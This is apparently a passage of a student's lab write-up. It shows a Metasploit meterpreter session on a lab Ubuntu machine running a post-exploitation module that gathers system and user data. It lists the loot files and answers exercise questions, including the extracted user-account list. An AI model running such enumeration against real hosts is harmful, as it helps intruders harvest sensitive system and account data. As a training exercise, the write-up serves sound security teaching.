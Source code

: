 **What I would like you do to is to run a module that will give you system and user
information. Here it is.**

`meterpreter > run post/linux/gather/enum_system`

Searching for it
```console
msf > search post/linux/gather/enum_system
```

Now back to meterpreter
```console
meterpreter > run post/linux/gather/enum_system
```

As you can see all the data extracted from the Ubuntu machine is stored in your Kali
machine in the folder “`~/.msf4/loot`”.

Lets navigate to the location to see the files
```console
berkankutuk@kali:~$ cd /home/berkankutuk/.msf4/loot
berkankutuk@kali:~/.msf4/loot$ ls -l
-rw-r--r-- 1 kali kali    155 Oct  8 17:01 20221008170150_default_10.0.2.4_linux.version_329095.txt
-rw-r--r-- 1 kali kali     46 Oct  8 17:02 20221008170208_default_10.0.2.4_linux.enum.syste_053110.txt
-rw-r--r-- 1 kali kali    345 Oct  8 17:02 20221008170208_default_10.0.2.4_linux.enum.syste_086234.txt
-rw-r--r-- 1 kali kali    167 Oct  8 17:02 20221008170208_default_10.0.2.4_linux.enum.syste_150281.txt
-rw-r--r-- 1 kali kali    560 Oct  8 17:02 20221008170208_default_10.0.2.4_linux.enum.syste_155967.txt
-rw-r--r-- 1 kali kali   3606 Oct  8 17:02 20221008170208_default_10.0.2.4_linux.enum.syste_324148.txt
-rw-r--r-- 1 kali kali 105772 Oct  8 17:02 20221008170208_default_10.0.2.4_linux.enum.syste_837714.txt
-rw-r--r-- 1 kali kali     72 Oct  8 17:02 20221008170208_default_10.0.2.4_linux.enum.syste_846978.txt
-rw-r--r-- 1 kali kali     67 Oct  8 17:02 20221008170208_default_10.0.2.4_linux.enum.syste_953750.txt
-rw-r--r-- 1 kali kali    788 Oct  8 17:02 20221008170208_default_10.0.2.4_linux.enum.syste_961272.txt
```

**†What are possible activities/aims for the post-exploitation phase?**  
To gather system information that can be sensitive and therefore quite useful for an attacker.

**†Write out the list in the file that has the “User Accounts”?**  
Filename: `20221008170208_default_10.0.2.4_linux.enum.syste_086234.txt`

**Contents:**
```
root
daemon
bin
sys
sync
games
man
lp
mail
news
uucp
proxy
www-data
backup
list
irc
gnats
nobody
```